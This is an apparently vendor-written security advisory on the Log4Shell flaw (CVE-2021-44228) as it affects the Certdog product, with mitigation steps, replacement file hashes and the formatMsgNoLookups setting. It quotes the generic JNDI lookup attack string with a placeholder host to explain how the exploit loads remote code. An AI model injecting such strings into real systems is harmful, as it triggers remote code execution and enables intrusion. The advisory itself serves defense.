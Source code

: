 ```yaml
---
layout: default
title: Certdog CVE-2021-44228
parent: Certdog
nav_order: 100
---
```


# Certdog: CVE-2021-44228

> Apache Log4j2 Vulnerability (Log4Shell)



A vulnerability exists in log4j2 that leverages JNDI to potentially allow an attacker to provide a string that is interpreted as a variable  

JNDI does not enforce any security controls on LDAP requests, therefore if a string such as the following:

```
${jndi:ldap://[host]/[path]}
```

Could be logged, Log4J would interpret it as a variable and this would result in the classes available at the ``[host]/[path]`` location being downloaded and executed

<br>

## Am I Vulnerable

Certdog uses the vulnerable library for local logging. It does not override the web server's logging so is not vulnerable to *User Agent* attacks.  But a user that has access to the system could insert a command such as the above   

Certdog runs under a recent version of java by default that is also resistant to the attack, but if you have any instances of Certdog that are internet facing, you should take action now by following the [What should we do](#what-should-we-do) section below  

For internal-only instances it is recommended that these steps are also followed.  Though the risk is much less, the steps are simple and will protect your instances further  

<br>

### What should we do

Download the updated ``start-tomcat.ps1`` script from [here](https://krestfield.s3.eu-west-2.amazonaws.com/certdog/start-tomcat.ps1)  

The SHA-1 hash of this file is:

```
b5bff4537e4667ff596ec4cb092add2124dff691
```



This script includes one extra setting:

```
-Dlog4j2.formatMsgNoLookups=True
```

Which prevents the lookups from being performed

From your certdog installation, backup the existing ``start-tomcat.ps1`` script. E.g. from the following location (or where Certdog has been installed):

```shell
c:\certdog\bin\start-tomcat.ps1
```

And replace it with the one downloaded from the link above  

<br>

Download the updated ``log4j2.xml`` file from [here](https://krestfield.s3.eu-west-2.amazonaws.com/certdog/log4j2.xml)

The SHA-1 hash of this file is:

```
a7b7b1822e178a53fe6f0a8e940a22b443d0cdd0
```

From your certdog installation, backup the existing ``log4j2.xml`` file. E.g. from the following location (or where Certdog has been installed):

```shell
c:\certdog\config\log4j2.xml
```

And replace it with the one downloaded from the link above  

<br>

Restart the *Krestfield CertDog Service*

<br>

### What version of Log4j2 does Certdog use?

Version 1.5.0 and earlier use  Log4J version 2.14.1

<br>

### More Information

Contact [Krestfield Support](mailto:support@krestfield.com) for more information

